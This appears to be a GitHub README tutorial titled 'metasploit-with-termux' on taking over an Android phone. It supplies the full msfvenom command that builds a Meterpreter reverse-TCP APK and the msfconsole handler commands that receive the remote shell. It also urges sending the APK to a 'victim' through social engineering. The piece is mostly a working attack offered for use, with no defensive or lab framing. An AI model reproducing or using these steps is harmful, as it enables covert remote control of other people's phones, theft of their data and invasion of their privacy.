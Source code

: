 # metasploit-with-termux
Hi....this is a tutorial on how to hack a phone with termux....this is only for 


REQUIREMENTS:
1.termux
2.Metasploit
3.a little patience


STEPS:-
 

Open Termux 
 

Install metasploit.Copy your Internal IP Address.
( use ifconfig command to view your ip addree)



Type msfvenom  in termux
 

Enter the following commands in a new terminal to
generate the Reverse TCP Payload. (Note: Replace the 
LHOST with your internal IP.

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 R >/sdcard/FILENAME.apk
 -p : Specify Payload
 

LHOST : Your ip address
 

LPORT : Listening Port number
 

R : RAW Format
 

>/sdcard/FILENAME.apk => Location to save the Payload
 

So, That’s it! You’re almost halfway into hacking
that Android device! Just send your Payload to the
Victim(Using some Social Engineering :P). You can find
your payload in sdcard FILENAME.apk



PART 2: STARTING A LISTENER:-
 

 Open new terminal Type 
msfconsole
 

 

Type
use exploit/multi/handler
 

Type
set payload android/meterpreter/reverse_tcp


Type
set LHOST 192.168.1.3 (Enter your Internal IP same as in the 1st Part)
 

Type
set LPORT 4444
 

Type
exploit
 

Now as soon as the Victim installs and tries to open
up the Payload(apk) on their device, you’ll get a
Meterpreter Session.




🤯🤯🤯SO, THERE YOU HAVE IT. COMPLETE ACCESS OF THE
VICTIM’S PHONE RIGHT ON YOUR SCREEN!


 
